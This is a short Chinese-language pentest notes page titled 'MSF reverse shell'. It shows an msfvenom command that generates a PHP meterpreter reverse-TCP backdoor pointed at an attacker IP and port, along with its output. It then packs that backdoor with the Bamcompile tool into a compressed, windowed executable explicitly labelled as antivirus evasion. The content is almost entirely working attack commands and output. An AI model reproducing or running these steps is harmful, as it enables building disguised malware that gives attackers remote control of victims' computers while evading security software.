 ##### MSF 反弹 Shell

生成 PHP 后门

```php
┌──(root㉿kali)-[/home/kali]
└─# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.111.128 lport=9999 -f raw >houmen.php                              
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder specified, outputting raw payload
Payload size: 1116 bytes
```

![image-20220906013850233](./st2.assets/image-20220906013850233.png)



构造免杀

工具：[Release bamcompile1.21.zip · xZero707/Bamcompile (github.com)](https://github.com/xZero707/Bamcompile)

```powershell
PS D:\ProgramOthers\Security\bamcompile1.21> .\bamcompile.exe -w -c .\houmen.php .\miansha.exe

Bambalam PHP EXE Compiler/Embedder 1.21

Windowed application
Compress
Mainfile: .\houmen.php
Outfile: .\miansha.exe

Encoding and embedding .\houmen.php
Compressing final exe..
Compression done

.\miansha.exe created successfully!
```
